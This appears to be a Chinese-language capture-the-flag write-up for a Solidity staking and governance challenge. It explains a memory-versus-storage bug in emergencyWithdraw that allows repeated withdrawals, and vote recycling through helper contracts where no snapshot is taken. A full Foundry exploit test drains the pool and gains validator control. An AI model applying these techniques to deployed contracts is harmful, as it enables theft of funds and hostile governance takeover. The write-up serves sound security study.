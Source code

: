 # 06.challenge

## 分析

### 1.全局观

三部分：

- interface.sol：接口
- Masterchef.sol：
  - 虽然代码很多，其实就只有MasterChef合约需要关注，因为像Ownable, ERC20这种东西一般是不会出考点出问题的
  - MasterChef本身便是一个ERC20代币
  - 有空投机制
  - 有owner转让机制
  - 质押代币到池子中，可以有很多个池子。计算利润，计算比较复杂，不懂没问题。池子中质押的金额有好几个方法都是与计算有关，更新池子数据的
  - 一个质押存款函数，两个取款函数
- Governance.sol
  - 治理合约，在Masterchef合约中拥有的代币数目可以进行投票
  - 身份权限机制
  - 题目初始化

总的来说，就是质押有关的题目，质押生息，获得代币，足量的代币可以成为owner和进行投票，投票数额到达一定量才可以通过

### 2.任务

我们需要拥有超过代币总发行量2/3的投票数

```solidity
    // 成为Validator：至少需要代币总发行量的2/3
    function setValidator() public {
        uint256 votingSupply = masterChef.totalSupply() * 2 / 3;
        require(validatorVotes[msg.sender] >= votingSupply);
        ValidatorOwner = msg.sender;
    }

    // 任务：成为Validator
    function setflag() public onlyValidatorOwner {
        Flag = true;
        emit Sendflag(Flag);
    }
```

### 3.分析

首先有空投，那么我们可以领取完所有的代币1000：

```solidity
    function airdorp() public {
        require(aridorplimit < 1000,"");
        _mint(msg.sender,1);
        aridorplimit = aridorplimit + 1;
    }
```

这么少代币显然不够，我们必须得想法法搞多点：

- 质押生息？要等区块，并且一个区块生息的数目不好算，我也看的不是很懂，并且无法控制区块的进度，这条路走不通
- 存取款是否有毛病？质押看起来没啥毛病，取款呢？普通取款没啥问题，但是看一下紧急取款`emergencyWithdraw()`（没利息）：我们的质押数额扣除是在memory，但是增加是在storage，那么这样我们就可以无限的取款了，知道掏空合约中的所有钱

```solidity
    function emergencyWithdraw(uint256 _pid) public {
        // memory意味着不会修改任何storage数据
        PoolInfo memory pool = poolInfo[_pid];
        UserInfo memory user = userInfo[_pid][msg.sender];
        // 用户拿到了取款
        this.transfer(address(msg.sender), user.amount);
        emit EmergencyWithdraw(msg.sender, _pid, user.amount);
        // 更新用户个人资产信息
        pool.totalstake -= user.amount; 
        user.amount = 0;
        user.rewardDebt = 0;
    }
```

我们掏空合约的所有钱 10_000_000，就算投票也是不够总数额100_000_000+10_000_000的三分之二的。因此，还要想办法再搞多点钱。但是剩下的钱都在合约部署者身上，我们无法拿走，因此转向能不能拿多点投票数？

一般的项目都是使用snapshot来进行拍照记录投票数，但是本题没使用，似乎可以无限投票？那么我投完票之后，可以把钱给别人，然后别人也可以投票呀！因此，我们创建几个傀儡账户，轮番使用我们10_000_000金额进行投票给我，想要多少票都可以哈哈

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.6.12;
pragma experimental ABIEncoderV2; // 不加这个会报错，原因如下：https://github.com/foundry-rs/foundry/issues/4376

import "forge-std/Test.sol";
import "../../src/08.challenge/Governance.sol";

contract attackTest is Test {
    Governance public governance;
    MasterChef public masterChef;
    Helper[10] public helpers;
    uint256 constant ALLMONEY = 10000000;

    function setUp() public{
        governance = new Governance("level");
        masterChef = governance.masterChef();
    }

    function test_isComplete() public{
        // 拿走全部空投
        for(uint i = 0; i < 1000; i++){
            masterChef.airdorp();
        }
        assertEq(masterChef.balanceOf(address(this)),1000);
        // 存款: 存到第一个池子。此时我们token的余额为0，但是质押了1000个代币
        masterChef.approve(address(masterChef), 1000);
        masterChef.deposit(0, 1000);
        // emergencyWithdraw漏洞：拿走合约中所有的钱
        // 10000000 / 1000 = 10000
        for(uint i = 0; i < 10000; i++){
            masterChef.emergencyWithdraw(0);
        }
        // 检查是否拿完了合约中的所有钱
        assertEq(masterChef.balanceOf(address(this)),ALLMONEY);
        // 我们有了足够的钱，可以成为owner了
        masterChef.transferOwnership(address(this));
        assertEq(masterChef.owner(),address(this));
        // 成为了owner之后就可以投票了，但是只能投票一次
        governance.vote(address(this));
        // 创建10个Helper来帮助我们获得更多的投票
        for(uint i = 0; i < 10; i++){
            helpers[i] = new Helper(address(masterChef), address(governance));
        }
        // 10个Helper继承我们金钱，然后继续投票给我
        for(uint i = 0; i < 10; i++){
            // 转钱到Helper
            masterChef.transfer(address(helpers[i]),ALLMONEY);
            // 用Helper帮助我们投票
            helpers[i].help(address(this));
        }
        // 检查是否大于2/3的投票
        assertGt(governance.validatorVotes(address(this)),masterChef.totalSupply() * 2 / 3);
        governance.setValidator();
        governance.setflag();
    }

}

contract Helper{
    MasterChef masterChef;
    Governance governance;
    uint256 constant ALLMONEY = 10000000;

    constructor(address _masterChef,address _governance)public{
        masterChef = MasterChef(_masterChef);
        governance = Governance(_governance);
    }

    function help(address _addr) public{
        // Helper有钱之后就可以成为Owner
        masterChef.transferOwnership(address(this));
        // 成为owner之后就给本合约投票
        governance.vote(_addr);
        // 投完票之后把钱给回本合约
        masterChef.transfer(_addr, ALLMONEY);
    }
}
```



























































